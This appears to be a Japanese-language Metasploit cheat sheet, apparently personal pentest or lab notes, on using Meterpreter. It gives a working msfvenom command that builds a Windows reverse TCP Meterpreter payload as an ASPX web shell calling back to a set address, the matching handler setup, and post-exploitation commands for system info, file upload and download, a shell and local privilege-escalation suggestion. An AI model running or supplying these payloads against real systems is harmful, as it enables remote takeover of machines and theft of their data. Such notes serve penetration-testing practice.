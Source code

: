 ### Meterpreter

### reverseshellの作成
reverseshellをmeterpreterのstagedのもので作成する。次のhandlerと一致させないとだめ。
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.46 LPORT=4444 -f aspx -o rshell.aspx

### handlerの設定

    use exploit/multi/handler
    set lhost xxx.xxx.xxx.xxx
    set lport xxx.xxx.xxx.xxx
    set payload windows/meterpreter/reverse_tcp
    exploit -j

##基本情報取得  
`sysinfo`  
`getuid`  

## アップロード
`upload <元ファイル> <宛先>`  

## ダウンロード  
`download <元ファイル> <宛先>`  

## shellの実行
`shell`

## exploit suggester

まずは、セッションをバックグラウンドに移してからセッションを指定して実行。

    meterpreter > bg
    msf6 exploit(multi/handler) > search suggester

    Matching Modules
    ================

      #  Name                                      Disclosure Date  Rank    Check  Description
      -  ----                                      ---------------  ----    -----  -----------
      0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester

      msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
      msf6 post(multi/recon/local_exploit_suggester) > set session 5
      session => 5
      msf6 post(multi/recon/local_exploit_suggester) > run
